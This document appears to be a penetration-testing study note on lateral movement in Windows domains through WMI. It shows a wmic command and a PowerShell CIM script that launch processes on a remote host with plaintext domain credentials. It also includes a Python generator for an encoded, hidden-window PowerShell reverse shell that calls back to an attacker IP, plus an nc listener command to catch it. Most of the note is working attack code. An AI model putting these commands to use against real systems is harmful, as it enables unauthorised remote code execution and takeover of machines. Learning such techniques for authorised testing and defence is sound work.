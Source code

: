 ```yaml
---
tags: wmic, winrs, mimikatz, PsExec
---
```

## WMI and WinRM

### WMI

Windows Management Instrumentation (WMI):
- object-oriented feature
- facilitates task automation
- communicates through port 135 (Remote Procedure Calls (RPC)) for remote access
- uses ports 19152-65535 for session data

> Prerequisites: credentials of a domain user who is also in Local Administrator group of target machine

#### Tool: wmic (deprecated)

Run a process on target ip machine: (run this command from a domain-joined machine as any account)
`wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"`
- user `jen` must satisfy the prerequisites

#### Tool: PowerShell
PowerShell script (same effect as above):
```powershell
$username = 'jen'; 
$password = 'Nexus123!'; 
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -
SessionOption $Options
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create - Arguments @{CommandLine =$Command};
```

Replace payload with reverse shell:
1. Get encoded reverse shell payload with Python: (replace the ip and port to our Kali machine's)
```python
import sys
import base64

payload = '$client = New-Object
System.Net.Sockets.TCPClient("192.168.118.2",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | OutString );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " +
base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
2. Replace the value of `$command` with the encoded reverse shell payload
3. Run listener in Kali (`nc -lnvp 443`) and catch the reverse shell

